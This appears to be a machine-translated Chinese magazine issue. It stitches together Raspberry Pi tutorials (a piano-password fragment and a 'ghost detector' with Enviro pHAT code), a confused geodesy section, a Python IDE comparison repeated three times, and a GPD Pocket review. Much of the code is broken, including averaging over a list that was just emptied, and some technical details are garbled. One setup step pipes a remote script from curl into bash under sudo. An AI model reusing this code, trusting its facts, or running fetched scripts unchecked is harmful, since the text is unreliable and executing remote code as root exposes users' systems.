```

当你完成输入密码后，按下`'instrument'`按钮。如果密码错误，你会看到相应的消息，脚本将退出。如果密码正确，脚本将显示“正确”的消息，你会看到解密文本：


## 15 修改音色

敏锐的读者可能注意到在修改输入密码的仪器时，你可以在鼓声和钢琴音色之间切换。如果你更喜欢镲而不是钢琴，你可以使用鼓声。在你的`Pi`上打开终端并将鼓声拷贝到钢琴密码文件夹：

```bash
cp -r /home/pi/pianat/examples/sounds/ /home/pi/pianat-password/sounds
```

如果你需要更改，请将该文件夹移出该文件夹（将其放入回收站）。这确保了脚本解码时只有一个仪器。

## 16 添加到你的脚本

钢琴密码脚本是功能性的，但目前，你现在可以使用一个编码后的脚本来播放密码

如果你以前弹过钢琴，`Pimon`为你准备了极好的教程。打开终端并运行：

```bash
sudo Pimon/pianat/examples/learn-to-play
```

# 幽灵探测器

## 树莓派用户幽灵指南及如何捕获它们

部署`Raspberry Pi`、`Enviro pHAT`和红外摄像头，以捕捉高达 5 级全漫游蒸汽的任何迹象。

## Dan Aldred

`Dan Aldred`是一位`Raspberry Pi`爱好者、教师和编码人员，他兼职了幽灵猎人工作（因为这让他感觉很好）。

# 资源

- `Raspberry Pi`
- `Enviro pHAT` `http://bit.ly/EnviroppHAT`
- `LISPARO` `www.lisiparo.com`
- `Black Hat Hack3r` `http://bit.ly/HatHack3r`



正如那位作者所说，你完全应该知道如果幽灵或鬼魂存在，会发生环境变化。首先，房间可能会因为温度突然下降而感到寒冷；其次，物体可能会移动到位置。也许你可能会观察到彩色光或明亮的白光，为超自然世界的活动清理道路——例如一本书从房间飞走、桌子摇动或门自动打开。

`Enviro pHAT`是捕获幽灵的完美硬件套。它集成了四种不同的传感器，让我们测量温度、压力、水位、颜色、三轴运动、罗针方向和光线。它们声称：“它适用于监控家里、车库或花园的状况。使用`Flask`设置`Web`服务器并从任何地方监控一切。”它们没有提到你也可以用它来捕获幽灵。

将`Enviro pHAT`的设置与`Raspberry Pi`摄像头、终端窗口以及更新红外（`IR`）`LED`灯环结合，你就有有了一套完美的设备，用来捕捉幽灵访客的摄影证据。

## 01 安装所需的软件

开始设置你的`Raspberry Pi`并安装所需的软件库。打开终端窗口并更新操作系统，然后输入第三行的命令安装`Enviro pHAT`。我们将下载并安装所需的软件和示例程序。若要使用音频警告，请将其添加到文件库`mpg321`，然后输入命令`sudo shutdown`关闭你的`Raspberry Pi`并拔掉电源。
```


# 01 系统更新

`sudo apt-get update`

`sudo apt-get upgrade`

使用 `BMP280` 温度传感器测量温度，使用 `TCS3472` 光线和 RGB 颜色传感器捕捉光线变化，使用 `LSM303D` 加速度计/磁力计。

教程文件可用：`filesilo.co`

```bash
sudo curl -s5 https://git.pimoroni/envirobash | bash
sudo apt-get install mpg321
```

运行 `raspi-config` 并选择所需的设置。重启你的树莓派。



## 02 设置硬件

接下来是连接硬件。我们建议你使用 `Mini Hat Hack3r`；虽然花生网站 `pinotyz.com` 提供了接线指南，这意味着你应该将带有树莓派摄像头模块的底座连接到 `HDMI` 端口。接下来，连接：

```python
from camera import PiCamera
from time import sleep

camera = PiCamera()
camera.start_preview()
sleep(5)
camera.capture('/home/pi/Desktop/image.jpg')
camera.stop_preview()
```

## 03 接线 LISIPARO

`LISIPARO` 仅需四根线。将电源线（右侧的）连接到 `5V` 引脚（物理引脚 `2`）。中间两个引脚用于 `GND` 连接。这些物理板引脚中的任意两个可以是：`6`, `9`, `14`, `20`, `25`, `30`, `34` 和 `39`。教程使用了 `GPIO 10`（物理引脚 `19`）。参考图 1 将 `LISIPARO` 连接到 `5V` 电源和地。

## 04 测试摄像头

创建一个程序来测试摄像头。打开你的 `Python` 编辑器并复制下面的代码。这将启动摄像头预览，你可以从中查看。摄像头将拍摄照片并保存到桌面。如果不起工作，请检查摄像头是否连接、启用且代码正确。

## 05 导入模块

要创建这个程序，从第五行开始导入模块：`sys`, `os`。这将主程序写入磁盘。对于 `Enviro pHAT` 的功能：光线、天气和运动（针对温度）。



## 06 创建函数 - 1

主程序通过检查读取值来工作，如果它落在范围内，就会触发 `LED`。通过命名函数，将其设置为高。在引脚 `10` 上创建一个电路并让它们闪烁。

## 07 创建摄像头函数 - 2

通过重写名称获取摄像头函数，并将 `GPIO 10` 设置为低，使用代码 `file_name=int(file_name)+1` 增加文件名。`int` 转换值以便进行加法；但文件名不是整数，所以你必须转换。

```python
camera.capture(file_name + ".jpg")
time.sleep(3)
GPIO.output(10, GPIO.LOW)
file_name=int(file_name)+1
file_name=str(file_name)
```

## 08 编写脚本

# 幽灵探测器

```python
#!/usr/bin/python
import sys
import os
import time
from camera import PiCamera
import RPi.GPIO as GPIO
from enviro_pHAT import light, weather

# 传感器的变量
file_name = ""
readings = []
z = 0

def create_ghost():
    global file_name
    GPIO.output(18, GPIO.HIGH)
    time.sleep(0.2)
    print(file_name)

# 设置 GPIO
GPIO.setmode(GPIO.BCM)
GPIO.setup(10, GPIO.OUT)

# 建立当前温度
start_temp = weather.temperature()
print("房间温度为 ", start_temp)

while True:
    current_temp = weather.temperature()
    print("当前温度为", current_temp)
```

# 幽灵检测器教程



## 11 感知运动

接下来，设置代码来记录并响应运动。通过从运动传感器读取数值并将值添加到你在第 6 步中创建的列表 `readings = []` 中。在一代码中，使用读取数更新列表，除以所有读取数的总和并除以长度。这会计算出一个平均值，用于比较 `z` 轴是否存在变化。变化包含了运动。

```python
readings.append(z)
readings = []
z = sum(readings) / len(readings)
time.sleep(0.3)
```

## 12 感知光线

如果幽灵或鬼魂出现，它们可能会发出额外的光或奇怪的光芒。使用 `Emiro pHAT` 光传感器来测量这种光。创建一个变量来存储光线值（即 `one`），并收集红、绿、蓝值。在第三、第四行中打印这些值；这对于确定光的强度和颜色很有用。

```python
amount_of_light = light.light()
r, g, b = light.rgb()
print("Amount of light:", amount_of_light)
print("Colour", r, g, b)
time.sleep(1)
```

## 13 响应运动

现在检查万圣节怪物撞击 `pHAT` 是如何触发运动的。如果是幽灵，它将穿墙而过，但光传感器会被触发。通过将光线与新像素进行比较，你可以得到一个颜色值。这也会检查它是否已经从“当前位置”移动，即使 `pHAT` 被移动了也会响应。如果检测到运动，使用你在第 B 步中创建的 `catch_a_ghost()` 触发相机。

```python
while True:
    current_temp = temperature.temperature()
    print("current Temperature is: ", current_temp)
    time.sleep(0.1)
    if any(movement):
        readings.append(accelerometer.z())
        readings = []
        z = sum(readings) / len(readings)
        time.sleep(0.3)
    amount_of_light = light.light()
    print("Amount of light:", amount_of_light)
    print("Colour:", r, g, b)
```

```python
# 检查运动或移动*
if last_z > 0 and abs(z-last_z) > threshold:
    print("Ghost Detected!!!")
    catch_a_ghost()
    led.on()
```

`last_z = z`
`time.sleep(0.01)`
`leds.off(1)`

# 响应温度变化

在第 10 步中，你编写了读取温度并将值存储在变量中的代码。将其与当前温度进行比较。记住，如果有幽灵，就会出现突然的差异。如果温度在一秒内下降不到 5 度，则说明有幽灵。触发相机，然后将新温度设置为新的温度值。这将适应夜间温度的缓慢下降。

```python
***检查温度变化***
if current_temp - start_temp < 5:
    print("GHOST")
    start_temp = current_temp
```

# 响应光线

程序的最后部分与前两步相似。检查环境光的变化（这连接到第 12 步），然后是当前值。值为 0 表示没有光。在程序中，用一行代码检查值是否大于 2，然后触发相机。该行是：

```python
# 等待一会儿
readings.append(sensor.read_luxmeters())
value = int(readings[-1])
time.sleep(1)

# 读取光量
current_light = sensor.read_light()
if current_light < threshold:
    pass

# 打印环境光量
print("Ambient: %d" % current_light)
time.sleep(1)

#***检查环境光的变化***
if amount_light > 20:
    print("GHOST")
```


`start_a = amount_light`

`catch_a_ghost()`

```
- except KeyboardInterrupt: pass
```

你可能想将你的幽灵相机部署在一个你无法监控的地方。这需要程序在插上电源时自动启动。打开终端并输入`sudo crontab -e`打开编辑器，你可以在其中列出特定时间运行的程序。滚动到列表底部，输入`@reboot`命令，后跟你的幽灵相机文件名。

```
@reboot python /home/pi/ghost_camera.py
```


命令末尾的 `&` 将在后台运行代码，你的树莓派将启动。保存并退出；现在你的程序将在启动时运行。
狩猎愉快！



## 你需要做什么？

简化的 `LatLon`（经纬度）是要待简化的点。这可能是最快但也最准确的简化程序。幸运的是，还有其他可用程序，例如下面的代码使用了 `Reumann-Wittkopf` 算法：

虽然 `Geodesy`（测量学）提供了很多功能，但进行足够研究的人总是需要做一些新东西。许多底层计算都简单到可以直接在你自己的的算法中实现这些结构。例如，你可能有一段复杂的计算会给出一个包含卫星纬度的 `NumPy` 数组，或者你可能有一个 `GPS` 单元输入数据，然后通过某种形式的转换进行处理。通过使用 `NumPy` 来你完成的这些计算，你可以将其封装在 `NumPy` 类中，以便在 `Geodesy` 模块中处理它们。

- `simplified = psimp`
- `simplifyPy(lat, list, pipe)`
- `latlon1 = prig.LatLon(45, 66.00)`
- 如果计算目标点
- `latlon2 = latlon(distance, bearing)`
- `# 计算中间点`
- `intermediateLatLon(latlon1, 0.5)`

第一个参数是管道（`pipe`）的输入。第二个参数是半径（单位为米），管道覆盖路径上的所有点，并且管道内的所有点都被简化为单条线，直到管道外的第一个点。更复杂的算法是 `Vincenty-Haversine(pipe)`。这种方法会切掉附近的点，并且如果管道低于某些阈值，则尝试移除任何点。例如：

第一个示例取一个给定的点、一个给定的距离和方位角，计算出结果点。第二个示例取两个点并返回位于两端之间某个比例的点。在这个示例中，我们正在查看地球上的一个区域。与其定义简单的线，你不如通过点定义一个多边形。你可以找到这种由点定义的大圆边界的多边形的面积，即 `面积 = prig.area(poly)`。

- `simplified = psimp`
- `simplifyPy(lat, list)`

第二个参数是三角形的面积，单位为平方米。

一个示例，你可能有一个点列表，并可以使用以下方法计算面积：

到目前，我们已经定位了子模块，它们向你展示了椭圆的子模块。有两种类型的子模块：球形和椭球体。这两个子模块都有它们自己版本的 `LatLon` 类，并且整组子模块会为你创建一个新的 `LatLon` 对象。以下是几个：

- `import geodesy, spherical.vector as prig`
- `array = np.array(prig.vector(list))`
- `if prig.isPointPolygonByLatLon(list, point):`
    - `return True`

如果没有点，你可能对点的几何平均值感兴趣，`均值 = prig.mean(list)`。所有这些在 `Vector` 版本中也是可用的。这个版本在你想要进行计算时使用。这些计算比三角公式要更容易阅读和理解。

你可能需要从相反的方向操作，即当你有一组经纬度列表时，使用对象列表并使用它们。有一个包装类可以向你展示如何做。接下来的示例取了一个点列表，并计算每个点在其中出现的次数。

- `import geodesy`
- `spherical.Trigonometry as prig`

我们还没有提到其他可以使用的方法，例如三边定测量法（`trilater`），但正如你所看到的，你有大量的计算能力可以投入到其中：

- `dot_prod = geodesy.dot3(a, b, c)`

在 `x`、`y` 和 `z` 坐标中，如果你有一个正方形，计数方法将向你显示多少次。如果你想检查，可以使用 `find()` 方法找到点的第一个实例，或者使用 `findall()` 方法找到所有实例。`find()` 方法将给你搜索的最后一个实例。对于点，以及带有对象列表和 `NumPy` 数组，`Geodesy` 模块中提供了许多可用的辅助函数。例如，以下代码为你提供了

你应该有其他核心工具以便在需要时添加你自己的功能。

# LUCA
数据驱动决策

`@Luca_d3`
`hello@luca-d3.com`
`www.luca-d3.com`


`Telefica` 数据单元

# 评论

81 组测试 | 86 硬件 | 88 发行版 | 90 自由软件



## 组测试

## Python IDE

将你的 `Python` IDE 设置提升新的高度，使用这些专用的 `Python` 代码编辑器轻松地编写大师级代码

### Eric
这个跨平台 IDE 用 `Python` 本身编写，并同时支持 `Python` 2 和 `Python` 3 以及 `Qt` 和 `Qt4` 应用程序框架。`Eric` 封装了开发软件项目所需的所有工具，使其成为顶尖位置的竞争者。`http://bit.ly/EricIDE`

### PyCharm CE
`PyCharm` 编辑器有两个版本。我们将查看开源社区版。虽然它提供的功能没有其专有兄弟版本那么多，但它有内置的调试器和版本控制。`www.jetbrains.com/charm`

### PyDev
它最初是 `Eclipse` IDE 的一个第三方插件，开发者建议使用 `PyDev` 开发轻量级编辑器。除了纯 `Python` 之外，它还支持...`www.pydev.org`

### Thunny
它是现在树莓派上的官方 `Python` IDE。它的设计考虑了初者的需求。与其他编辑器相比，它看起来很简单。它包含了你所需的所有功能。`http://thunny.org`

## 查看 Python IDE

将你的 `Python` IDE 设置提升新的高度，使用这些专用的 `Python` 代码编辑器轻松地编写大师级代码

### Eric
这个跨平台 IDE 用 `Python` 本身编写，并同时支持 `Python` 2 和 `Python` 3 以及 `Qt` 和 `Qt4` 应用程序框架。`Eric` 封装了开发软件项目所需的所有工具，使其成为顶尖位置的竞争者。`http://bit.ly/EricIDE`

### PyCharm CE
`PyCharm` 编辑器有两个版本。我们将查看开源社区版。虽然它提供的功能没有其专有兄弟版本那么多，但它有内置的调试器和版本控制。`www.jetbrains.com/charm`

### PyDev
它最初是 `Eclipse` IDE 的一个第三方插件，开发者建议使用 `PyDev` 开发轻量级编辑器。除了纯 `Python` 之外，它还支持...`www.pydev.org`

### Thunny
它是现在树莓派上的官方 `Python` IDE。它的设计考虑了初学者的需求。与其他编辑器相比，它看起来很简单。它包含了你所需的所有功能。`http://thunny.org`

## 查看 Python IDE

### Eric
这个跨平台 IDE 用 `Python` 本身编写，并同时支持 `Python` 2 和 `Python` 3 以及 `Qt` 和 `Qt4` 应用程序框架。`Eric` 封装了开发软件项目所需的所有工具，使其成为顶尖位置的竞争者。`http://bit.ly/EricIDE`

### PyCharm CE
`PyCharm` 编辑器有两个版本。我们将查看开源社区版。虽然它提供的功能没有其专有兄弟版本那么多，但它有内置的调试器和版本控制。`www.jetbrains.com/charm`

### PyDev
它最初是 `Eclipse` IDE 的一个第三方插件，开发者建议使用 `PyDev` 开发轻量级编辑器。除了纯 `Python` 之外，它还支持...`www.pydev.org`

### Thunny
它是现在树莓派上的官方 `Python` IDE。它的设计考虑了初学者的需求。与其他编辑器相比，它看起来很简单。它包含了你所需的所有功能。`http://thunny.org`

# PyDev

徘徊于开源插件与私有 IDE 之间



- 你可以通过将 `PyDev` 插件到 `Eclipse` 中或通过独立的众包式 `Eclipse` IDE 来使用它。

## 编程核心功能

仅仅因为 `PyDev` 是以插件形式存在的，就不要假设它缺少功能。通过 `PyDev`，你可以获得与其他独立编辑器相似的常用 IDE 便捷功能，如语法高亮、代码补全/折叠等。在此基础上，`PyDev` 还包含一个远程调试器，可用于调试程序。

## 辅助功能

同样，`PyDev` 提供了代码分析功能，帮助避免程序中出现缩进错误。`PyDev` 还包含代码引用功能，允许你快速找到自定义方法。使用 `PyDev`，你还获得了针对 `Google App Engine` 和 `Django` 项目的向导。此外，还集成了 `PyLint` 代码质量检查器。

## 插件

由于它是作为插件分发给各种（也是最庞大的）`Eclipse` 的，你可以利用 `Eclipse` 市场来添加新功能。可以通过插件添加对 `Git` 等版本控制系统的支持。然而，许多插件仅适用于 `Eclipse` 的主要编程语言 `Java`。

## 可用性

设置 `PyDev` 比其他 IDE 需要花费更多精力，因为它涉及到安装 `Eclipse`。`PyDev` 的界面是外接到 `Eclipse` 的多窗口界面上的，而该界面密密麻麻全是图标。除非你已经习惯了使用 `Eclipse`，否则熟悉它的界面并不会像其他 IDE 那样的回报。

## 总体

尽管可以作为插件使用，但 `PyDev` 在其同类测试中完全可以与其他独立编辑器相衡。然而，考虑到所有因素，它只对使用 `Eclipse` 的人有用。

# Thonny

一个平易近人且功能丰富但外观简洁的 IDE



- `Thonny` 以其零星的按钮和单一的菜单窗口脱颖而出，但如果你需要，也有插件可用。

## 编程核心功能

它拥有初学者非常需要的许多经验。代码补全和语法高亮运行良好。它的调试简单有效，因此你可以查看表达式是如何求值的。函数调用显示在一个窗口内，带有几个局部变量和代码类型。

## 辅助功能

由于其目标，你不会期望 `Thonny` 提供像其他编辑器那样的便利。`Thonny` 帮助用户类型的次数有限，并且区分局部变量和全局变量。当你使用面向对象的代码时，可以在变量窗口中选择对象并使用对象检查器（`Object Inspector`）检查它们的类型和属性。

## 插件

与 `Eclipse` 不同，`Thonny` 拥有一个简单的界面来通过插件丰富编辑器。目前有一个支持 `microbit` 的插件。`Thonny` 还具有指向 `Thonny` 包管理器的图形界面，允许你安装额外的包和库。

## 可用性

这是 `Thonny` 真正胜出的领域。它非常容易安装，且 IDE 中完全没有学习曲线。你可以启动 `Thonny` 开始编写代码，无论你的技能水平如何。IDE 具有简单的菜单结构并带有选项，你可以根据自己的经验和代码需求向界面中添加新功能。

## 总体

到目前为止，它是最容易上手且能帮助你学习技能的 IDE 之一。它的功能集与其教学学习者的目标保持一致，它的调试器值得一提。

# 评测 Python IDE

# 简要：对比并总结我们的结论

| | Eric | PyCharm CE | PyDev | Thonny |
| --- | --- | --- | --- | --- |
| 编程核心功能 | 整合了你可能需要的所有编程功能，甚至更多 | IDE 充满了许多实用的功能，可以帮助你高效编写代码 | 以 Eclipse 插件形式提供，但仍然很复杂 | 拥有所有能帮助新用户掌握 Python 的功能 |
| 辅助功能 | 包含帮助创建 GUI 元素和管理大型项目的功能 | 仅比 Eric 为编码者提供的便利性稍差一点 | 分析功能和创建 Django 项目的向导 | 不像其他编辑器那样提供通用的编程辅助 |
| 插件 | 提供了一个包含超过 40 个插件的近乎完整的列表来帮助 IDE | CE 版本提供了许多插件，某些可能无法与 Python 配合 | 作为其他 IDE（Eclipse）的插件有插件 | 目前仅提供插件，但 pip 包管理器至关重要 |
| 可用性 | 编辑器最弱的点，将迫使用户通过入门 | 界面比 Eric 好，但仍有其特殊之处 | 设置比其他的都更容易且直观 | 与其他相比，它让开始编码变得非常容易 |
| 总体 | 一个面向未来的 IDE，可以在用户的整个使用周期内运行，但并不完美 | 一个界面复杂的复杂的 IDE，对大多数用户易于使用 | 作为 Eclipse 的插件，PyDev 对 Eclipse 用户来说其实很有意义 | 一个帮助新来者的聪明 IDE |

# 获胜者是 ...

# Eric

你可能会对我们的选择感到惊讶，特别是考虑到 `Eric` 相当繁忙且不直观的界面。与其他一些编辑器不同，我们倾向于让 IDE 提供更多美观的特性。你无法避免翻阅手册以发挥其最大作用。从 `Thonny` 开始的所有编辑器都需要花时间阅读文档来掌握各自的细微差别。`Eric` 需要休息了，因为它的界面功能会导致它流失大量用户。`Thonny` 因为关注有限而被排除。它是 `Android` 开发最好的 IDE，但提供的功能恰好不会让你感到压力。对于不熟悉或不习惯 `Eclipse` 的人来说，`PyDev` 并不。



- `Eric` 包含了多种偏好，允许你自定义各个方面。

这就留下了 `PyCharm` 和 `Eric`。虽然 `PyCharm` 的界面更直观，但你可以在不阅读文档的情况下使用。然而，一旦你花些时间适应，你会发现 `Eric` 比 `PyCharm` 或任何其他编辑器都更全面。这对于创建图形界面尤其如此。你还可以使用该 IDE 协作进行项目。

`Mayank Sharma`


科技购买建议的来源

`techradar.com`

# 评测

# GPD Pocket



# 硬件

# GPD Pocket

`UMPC`（超移动电脑）以小巧且完美的 `GPD Pocket` 形式回归。十年前，计算世界对超移动电脑（`UMPC`）痴迷。然而，当时很少有设备，例如 `Toshiba Tablet 4.0`，而且技术无法让这些机器对大多数用户变得可行。小屏幕不实用，处理器耗电且发热，最重要的是电池技术意味着运行时间不足两小时。但现在技术已经进步，创建这些电脑，甚至是智能手机和平电脑变得更加可行。

一家相对未知的中国公司正寻求改变，推出了支持 `Ubuntu` 的 `GPD Pocket` 迷你电脑。`GPD Pocket` 在一个众筹网站发布。该活动不仅超过了其目标的 115%，筹集了 350 万美元，而且 `GPD Pocket` 能够在其之前的经验的基础上构建，使得 `GPD Pocket` 这类设备从其之前的产品 `GPD Win`（一台强大的 5.5 英寸游戏机）中获益。

在深入细节之前，重要的是，这类设备是折中方案。无法创建一个顶尖的





## 性能与效率之间的平衡极具沉浸感

银色外壳可能被误认为是苹果的产品。贴合程度和效率非常出色。

## 优点

性能出奇地好，配置均衡，辅以丰富的优质选择和慷大的接口。

## 缺点

键盘需要一些时间适应，风扇运行可能比较激进；价格相当昂贵。

...将桌面 `PC` 放入微型机箱中，而制作成功产品的关键是在适当的地方进行妥协，以提供良好的体验——`Pocket` 的核心是 `Intel Atom z7250` 处理器，对于 `Atom` 处理器来说没有什么可提的，或者你的第一反应可能是 `z7250` 是一款来自 `Intel` 的四核 64 位 `CPU`，基于 `45nm` 工艺构建，主频为 `1.6gh`，最高频率为 `2.56gh`。它令人印象深刻，但对于 `v2` 来说并不特别。在能力和效率出色的地方，性能也欠乏——尽管电池续航时间达到了 12 小时，现实中大约是七小时，这仍然是一个亮点。屏幕也是一个亮点；`13.7` 英 `1920x1200` `16:10` 显示屏清晰且支持多点触摸。顶部和底部很薄，侧面较大以为键盘留出空间。`Pocket` 没有包含任何摄像头，因此视频通话是不可能的。

...键盘对了。无法避免没有足够的空间容纳全尺寸键盘的事，因此 `Pocket` 的输入需要一些适应，虽然布局向左偏移，但按键尺寸有些不寻常且属于短 `QWERTY` 布局，不过按键有足够的键程且响应迅速——在使用几小时后，你会惊讶于这台机器打字体验有多好。它连接设备的能力就像苹果的 `MacBook` 一样。

各种接口提供了极好的连接性；`USB C` 和 `USB` 依然存在。有一个老式的 `3.5mm` 耳机接口，还有一个 `HDMI` 接口，允许你将 `Pocket` 连接到更大的屏幕。

`GPD` 在交付 `Pocket` 时内置的是 `Windows 10` 家庭版，然后安装了 `Ubuntu 16.04`。但这台机器最棒的是社区支持的基础（主要通过 `Reddit` 上的 `/rpocket`），它已经活跃起来。镜像很容易找到，其中许多镜像带有完整的硬件支持，并且比原生版本有改进的性能。围绕软件和硬件的活跃讨论正试图让 `Pocket` 成为一台比现在更好的发烧级机器。

与...相比，选择正确的硬件将是公式中最简单的部分。

## 总结

`GPD Pocket` 是一种紧凑型产品，将——但它是值得的。作为一个完整的 `PC` 体验，它并没有遗漏任何常见的功能。它将驱动这种形式的设备，而这种外形在不久将来将会爆发。

8

`www.linuxuser.com` 87

`Post O'Brien`

# Qubes OS 4.0 RC1

